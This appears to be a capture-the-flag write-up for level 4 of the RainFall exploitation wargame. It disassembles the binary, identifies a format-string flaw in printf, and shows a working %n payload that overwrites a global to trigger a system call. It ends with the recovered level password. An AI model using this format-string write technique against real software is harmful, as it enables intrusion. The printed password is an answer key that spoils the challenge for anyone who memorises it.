 # Level4

```nasm
(gdb) disas main
Dump of assembler code for function main:                         // Main function only calls n
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>           
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

```nasm
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218                       // Allocate a 0x218 (536) bytes stack
   0x08048460 <+9>:     mov    eax,ds:0x8049804                // Move stdin in eax
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax         // Put that as third argument
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200       // Put 0x200 as second argument (512)
   0x08048471 <+26>:    lea    eax,[ebp-0x208]                 // Put 520 bytes of the stack in eax
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax             // Put that as first argument
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>           // Call fgets
   0x0804847f <+40>:    lea    eax,[ebp-0x208]                 // Load the top 520 bytes of the stack in eax
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax             // Put that as first argument
   0x08048488 <+49>:    call   0x8048444 <p>                   // Call p
   0x0804848d <+54>:    mov    eax,ds:0x8049810                // Put whatever is at 0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544                   // Compare that with 0x1025544 (16930116)
   0x08048497 <+64>:    jne    0x80484a5 <n+78>                // If not equal, leave
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590       // Put on top of the stack the string "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:    call   0x8048360 <system@plt>          // Then call system !
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

```nasm
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                         // Allocate 24 bytes on the stack
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]          // Move into eax 8 bytes of the stack
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax              // Put that on top
   0x08048450 <+12>:    call   0x8048340 <printf@plt>           // Then call printf
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

We have a `fgets`, a `printf` and a `cmp` that triggers a `system` call, this looks very familiar… We can probably do the same thing as in level3

So once again we try to find where in memory (relatively to the address `0x8049810` ) we need to put 16930116 in order to trigger the comparison :

```nasm
level4@RainFall:~$ echo -e "\x10\x98\x04\x08AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAAb7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810 41414141 25207825
```

We can see that our “payload” AAAA is at the 13th position as 41414141

So we simply need to change the payload from AAAA to 16930116 at the right position :

```bash
 (echo -e "\x10\x98\x04\x08%16930112c%12\$n"; cat) | ./level4
```

And after a while (the time to write 16930116 characters), we get the password : 
**0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a**